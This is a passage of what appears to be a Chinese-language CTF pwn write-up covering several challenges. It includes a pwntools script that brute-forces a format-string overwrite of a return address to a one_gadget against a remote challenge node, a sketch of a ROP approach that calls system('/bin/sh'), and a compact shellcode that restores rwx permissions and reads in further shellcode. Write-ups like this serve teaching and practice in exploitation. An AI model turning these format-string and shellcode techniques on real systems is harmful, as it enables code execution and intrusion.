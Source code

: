 其实甚至可以不需要leak\_libc,我们可以flat\[向bss写入/bin/sh,重定向stdin为system,cus=>system("/bin/sh")]

只需要注入一次rop就够了

## fmt | FINISHED - 01

表面上只有一次格式化的机会

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918550.png)

我就直接爆破将返回地址的低24字节写为one\_gadget了,反正1/4096的概率也能接受吧(并不)

```python
from pwn import *
io=process('./pwn')
context.arch='amd64'
def pwn():
    io.recvuntil(b'your gift ')
    stack=int(io.recv(14),16)
    success("stack=>"+str(hex(stack)))
    io.recvuntil(b"please tell me your name")
    ret_addr=stack+0x68
    fini=0x403DB8
    magic=0x404010
    bss=0x404800
    one=[0xe3b01,0xe3afe,0xe3b04][0]
    payload=b'%c%9$hhn%11834c%10$hn'.ljust(24,b'\x00')+p64(ret_addr)+p64(ret_addr+1)
    print(hex(len(payload)))
    io.send(payload)
    io.interactive()
    io.sendline(b"cat f*")
while True:
    io=remote("node1.tgctf.woooo.tech",30924)
    try:
        pwn()
    except:
        io.close()
```

## shellcode | FINISHED - 01

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505205918551.png)

可以写入18字节,且只有这18字节可执行,关闭了这部分的写,执行权限,因此不能直接写nop滑梯了

我将18字节分为两部分:

1.恢复当前地址的rwx权限

2.调用read写入nop滑梯和execv\_shellcode

```python
"mov al,0xa;mov dl,7;mov sil,0xff;syscall;mov edx,esi;mov rsi,rdi;xor edi, edi;syscall;"
```
